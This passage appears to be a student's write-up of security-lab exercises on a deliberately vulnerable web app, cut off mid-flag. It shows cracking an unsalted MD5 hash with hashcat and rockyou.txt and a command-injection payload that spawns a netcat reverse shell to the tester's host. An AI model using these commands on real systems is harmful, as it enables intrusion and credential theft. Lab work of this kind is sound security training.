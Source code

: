 >First name: smithy  
>Surname: 5f4dcc3b5aa765d61d8327deb882cf99
>```
> 
> The output displayed the hash for user ‘1337’ as `8d3533d75ae2c3966d7e0d4fcc69216b`. From workshop 8, we know that these are md5 hashes WITHOUT salts, so we can now begin decrypting it to plain text.
> 
> - I've added an excerpt from workshop 5 to verify this
> ```
> passwords here are MD5 hashes, not plaintext passwords. But you can right away tell that the password for the user admin is the same as smithy, becuase their password hashes are identical (this is why password SALT is so important, as we will learn in later workshops).
> ```
> 
> Using the same hashcat method from assignment 1 with the `rockyou.txt` dictionary, we find that the plaintext password is `charley`
> 
> ```
> hashcat -m 500 -o out hash rockyou.txt --force
> 
> ...
> 
> 8d3533d75ae2c3966d7e0d4fcc69216b:charley
> ```
> To confirm the findings, I logged back into the DVWA using the credentials `1337` and `charley`, verifying that the password matched, thereby successfully exploiting the vulnerability and decrypting the hash.
> 
> ![[Pasted image 20240502104809.png]]

# Exercise 6

> [!exercise]+ Exercise 6
> Go to `http://<Your Hacklab VM IP addr>:8083/doa.php` to get the secret!
> 
> **Answer:**
> 
> Upon navigating to the webpage and seeing user input, I suspected a possible command injection vulnerability. Before attempting to exploit the vulnerability, I set up a **netcat listener** on my local machine using:
> 
> ```
> nc -lvp 1234
> ```
> 
> After setting up the listener, I submitted the form with the injected command and awaited the connection on my local machine.
> 
> ```
> 127.0.0.1 & nc -e /bin/sh 192.168.117.124 1234
> ```
> I now have a **reverse shell!** Using `ls -a` command to list all hidden files, I found `.the_secret_file`.
> 
> I then used the `cat` command to reveal its contents:
> 
> ```
> cat .the_secret_file
> ```
> ```
> ___________________________________________
> / csf2024s1_{botchier-disquiparancy-propp \